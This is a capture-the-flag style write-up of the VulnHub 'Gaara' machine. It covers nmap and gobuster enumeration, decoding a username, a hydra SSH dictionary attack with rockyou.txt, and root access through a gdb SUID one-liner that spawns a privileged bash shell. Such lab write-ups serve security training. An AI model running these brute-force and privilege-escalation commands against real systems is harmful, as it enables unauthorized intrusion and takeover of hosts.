 ```yaml
---
layout: post
title: Gaara
description: Gaara is a linux machine that features the exploitation of SSH by brute forcing a user's password.
categories: [writeups]
tags: [vulnhub, Cryptographic Failure, SUID]
image:
  path: https://www.vulnhub.com/media/img/entry/watermarked/0574412a086b5f2e434aa719c37cafa679009d3f.png
---
```


## **Summary**

Using a username found encoded on the website, we brute forced the SSH password. After accessing the machine, we took advantage of a binary with SUID bit set
to escalate our privileges.

> Machine can be found in [Vulnhub](https://www.vulnhub.com/entry/gaara-1,629/)
{: .prompt-info }

## **Enumeration**

### **nmap**

Initial nmap scan revealed that we have two open ports:

- 80 : `Apache httpd 2.4.38 (Debian)`
- 22 : `OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)`

```
$ nmap -sV -sC -p80,22 192.168.56.102
Starting Nmap 7.93 ( https://nmap.org ) at 2022-10-30 12:14 EDT
Nmap scan report for 192.168.56.102
Host is up (0.0011s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 3ea36f6403331e76f8e498febee98e58 (RSA)
|   256 6c0eb500e742444865effed77ce664d5 (ECDSA)
|_  256 b751f2f9855766a865542e05f940d2f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Gaara
|_http-server-header: Apache/2.4.38 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.40 seconds
```

![](/assets/gaara/nmap.png)

### http

Used `gobuster` and got one page

```
$ gobuster dir -u 192.168.56.102 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
```

![](/assets/gaara/gobuster.png)

Browsed to `http://192.168.56.102/Cryoserver` and got a page with three paths:

```
/Temari
/Kazekage
/iamGarra
```

![](/assets/gaara/cryoserver.png)

Browsed to `/iamGaara` and found an encoded text

```
f1MgN9mTf9SNbzRygcU
```

![](/assets/gaara/iamGaara.png)

I used `CyberChef` to decode it and got what looked like a username and password

```
gaara:ismyname
```

![](/assets/gaara/base58-decode.png)

I tried to login to ssh using this credentials but with no luck. The password is incorrect but we got a username.

## **Foothold**

I used `hydra` to perform a dictionary attack on the ssh server using the username I found earlier `gaara`.

```
$ hydra -l gaara -P ~/rockyou.txt ssh://192.168.56.102 -t 4
```

![](/assets/gaara/hydra-ssh-gaara.png)

I got a password `iloveyou2`, which I used to ssh into the machine and get the user flag

![](/assets/gaara/gaara-shell.png)

## **PrivEsc**

In the home directory I found a text file `Kazekage.txt` containing a base64 encoded text, which I decoded and got a path `/usr/local/games`

```
$ cat Kazekage.txt
$ tail -n 1 Kazekage.txt | base64 -d && echo
```

> `echo` : to print a line break, only for readability.

![](/assets/gaara/decode-Kazekage-txt.png)

I changed directory to `/usr/local/games`, and found `.supersecret.txt` containing a code writen in `brainfuck` language.

```

Godaime Kazekage:

+++++ +++[- >++++ ++++< ]>+++ +.<++ ++++[ ->+++ +++<] >+.-- ---.< +++++
+++[- >---- ----< ]>--- -.<++ +++++ ++[-> +++++ ++++< ]>+++ +++++ .<+++
[->-- -<]>- .++++ ++.<+ +++++ +++[- >---- ----- <]>-- --.<+ +++++ +++[-
>++++ +++++ <]>+. <+++[ ->--- <]>-- --.-- --.<+ ++[-> +++<] >++.. <+++[
->+++ <]>++ ++.<+ +++++ +++[- >---- ----- <]>-- ----- -.<++ +++++ ++[->
+++++ ++++< ]>+++ .<+++ [->-- -<]>- --.+. +++++ .---. <++++ ++++[ ->---
----- <]>-- ----- ----. <++++ +++++ [->++ +++++ ++<]> +++++ +++.< +++[-
>---< ]>-.+ +++++ .<+++ +++++ +[->- ----- ---<] >---- .<+++ +++++ [->++
+++++ +<]>+ ++.<+ ++[-> +++<] >+++. +++++ +.--- ----- -.--- ----- .<+++
+++++ [->-- ----- -<]>- ---.< +++++ +++[- >++++ ++++< ]>+++ +++.+ ++.++
+++.< +++[- >---< ]>-.< +++++ +++[- >---- ----< ]>--- -.<++ +++++ ++[->
+++++ ++++< ]>++. ----. --.-- ----- -.<++ +[->+ ++<]> +++++ +.<++ +[->-
--<]> ---.+ .++++ +.--- ----. <++++ ++++[ ->--- ----- <]>-- ----- .<+++
+++++ +[->+ +++++ +++<] >+++. <+++[ ->--- <]>-- -.--- ----. <++++ [->++
++<]> +++.< +++++ ++++[ ->--- ----- -<]>- --.<+ +++++ ++[-> +++++ +++<]
>++++ +.--- -.<++ ++[-> ++++< ]>++. <+++[ ->--- <]>-. +++.< +++[- >+++<
]>+++ +.<++ +++++ [->-- ----- <]>-- ----- --.<+ ++++[ ->--- --<]> -----
-.<++ +++++ [->++ +++++ <]>++ +.<++ +++[- >++++ +<]>+ ++++. +++++ ++.<+
+++++ +++[- >---- ----- <]>-- ----- -.<++ ++++[ ->+++ +++<] >++++ .<+++
++[-> +++++ <]>.< ++++[ ->+++ +<]>+ .<+++ [->-- -<]>- ----. +.<++ +[->+
++<]> ++++. <++++ +++++ [->-- ----- --<]> .<
```

![](/assets/gaara/supersecret-brainfuck.png)

I compiled it using an online compiler, but this was a dead end.

This file was to throw us off course, it is a nice try I might say.

![](/assets/gaara/brainfuck-compile.png.jpg)

After that, I looked for any binaries with `SUID` bit set and found an interesting one, which is `gdb`.

> According to [gtfobins](https://gtfobins.github.io/gtfobins/gdb/) `gdb` can be used to escalate our privileges if it has the `SUID` bit set.

![](/assets/gaara/suid-bins.png)

I used gdb to run bash as root

```
$ gdb -nx -ex 'python import os; os.execl("/bin/bash", "/bin/bash", "-p")'
```

![](/assets/gaara/root-shell.png)

Finally, I have rooted this machine and got the flag.
